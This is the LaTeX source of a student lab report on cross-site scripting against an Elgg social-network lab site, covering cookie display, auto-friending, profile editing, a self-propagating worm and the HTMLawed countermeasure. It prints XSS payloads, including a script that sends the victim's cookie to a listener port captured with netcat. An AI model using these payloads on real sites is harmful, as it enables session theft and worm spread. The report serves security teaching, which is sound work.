\documentclass[12pt,letterpaper]{article}
\usepackage[utf8]{inputenc}
\usepackage{amsmath}
\usepackage{amsfonts}
\usepackage{amssymb}
\usepackage{fancyhdr}
\usepackage{graphicx}
\usepackage[left=0.79in, right=0.79in, top=0.79in, bottom=0.79in]{geometry}
\usepackage{listings}
\author{Chathan Driehuys}

\lstset{frame=tb,
	captionpos=b,
	language=html,
	aboveskip=3mm,
	belowskip=3mm,
	showstringspaces=false,
	columns=flexible,
	basicstyle={\small\ttfamily},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=2
}

\graphicspath{{./images/}}

\pagestyle{fancy}
\lhead{COMP 535}
\chead{XSS}
\rhead{Chathan Driehuys}

\begin{document}
	\noindent \textbf{UNC Honor Pledge:} I certify that no unauthorized assistance has been received or given in the completion of this work.
	
	\vspace{.5in}
	
	\section*{Task 1}
		Since the contents of a user's description is simply inserted as-is into the page, it is fairly trivial to exploit.
		
		\begin{figure}[h]
			
\includegraphics[width=\linewidth]{task-1-xss-example}
			\caption{The result of our XSS exploit}
		\end{figure}
	
		Since the app we are attacking has a file-upload feature, we can upload any JavaScript we want to execute and the link to it from the user's description field. For example, to get the results above, we can upload a file with the contents:
		
		\begin{verbatim}
			alert('xss');
		\end{verbatim}
		
		We can then use the ``file upload'' feature of the site to upload the file. Finally we can add a \texttt{<script>} tag to the user's profile page that links to the uploaded file.
		
		\begin{figure}[h!]
			
\includegraphics[width=\linewidth]{task-1-about-me-content}
			\caption{An example of linking to an uploaded file.}
		\end{figure}
	
	\pagebreak
	
	\section*{Task 2}
		Replacing the contents of the user's ``About me'' section yields the desired results.
		
		\begin{figure}[h!]
			
\includegraphics[width=\linewidth]{task-2}
			\caption{The currently authenticated user's cookies being displayed.}
		\end{figure}
	
		\begin{lstlisting}[caption={The code to display the current user's cookie}]
<script type="text/javascript">
  alert(document.cookie);
</script>
		\end{lstlisting}
	
	\section*{Task 3}
		Using the same strategy as the previous XSS attacks, we can send the current user's cookies to an arbitrary server by using a script to load an image, passing the cookies as a parameter.
		
		\begin{figure}[h]
			
\includegraphics[width=\linewidth]{task-3-netcat-cookie}
			\caption{Using \texttt{netcat} to capture cookies sent by an \texttt{<img>} tag embedded through an XSS exploit.}
		\end{figure}
	
		\begin{lstlisting}[caption={Code to send the current user's cookie to an arbitrary server.}]
<script type="text/javascript">
  document.write('<img src="http://localhost:5555?c=' + document.cookie +  '">');
</script>		
		\end{lstlisting}
	
	\section*{Task 4}
		By injecting the following code into Samy's ``About me'' section, we can cause any logged in user who visits Samy's page to become friends with Samy.
		
		\lstinputlisting[caption={Exploit to add Samy as a friend of the currently authenticated user whenever Samy's profile is viewed.}]{../auto-friend.html}
		
		\subsection*{Questions}
			\begin{enumerate}
				\item
					These tokens are used to ensure that the ``add friend'' request actually came from the Elgg site. This prevents arbitrary actors from making ``add friend'' requests while only knowing the person's ID.
				\item
					Client side validation cannot stop this attack. We could simply examine what a successful request that updates the ``About me'' section looks like and duplicate it using our malicious payload.
			\end{enumerate}
		
	\section*{Task 5}
		Using the basic framework from the previous task, we can edit the currently authenticated user's profile. We only have to pull in a few more JavaScript variables, such as the user's GUID, and change the request URL and method.
	
		\begin{figure}[h!]
			
\includegraphics[width=\linewidth]{task-5-profile-edit}
			\caption{Alice's profile gets changed after viewing Samy's profile.}
		\end{figure}
	
		\lstinputlisting[caption={Code to automatically edit the currently authenticated user's profile when they view a profile containing the exploit.}]{../auto-profile-edit.html}
	
		\subsection*{Questions}
			\begin{enumerate}
				\setcounter{enumi}{2}
				\item
					If we did not include this guard, Samy's profile would be replaced by the exploit as soon as he viewed it. This would get rid of the attack, meaning any future users who viewed Samy's profile would not be impacted.
			\end{enumerate}
		
	\section*{Task 6}
		The main difference between this task and the previous one is that we now have to parse out our malicious script so that we can insert it into the victim's profile. To accomplish this, we can simply add an \texttt{id} attribute to our XSS script and then insert its \texttt{innerHTML} into a \texttt{<script>} tag in the victim's profile. The only other complication is that we have to encode the script contents because it contains ampersands which are used as the delimiter between form fields.
		
		\begin{figure}[h!]
			
\includegraphics[width=\linewidth]{task-6}
			\caption{Alice's ``About me'' section gets replaced with the XSS exploit from Samy's profile after she views it.}
		\end{figure}
	
		\pagebreak
	
		\lstinputlisting[caption={Code to propagate a worm to each user who views an infected profile.}]{../auto-propagate.html}
	
	\section*{Task 7}
		Enabling the \texttt{HTMLawed} plugin escapes the content of the profile text fields before displaying them, so the user sees the characters that make up the exploit script rather than the script being executed.
		
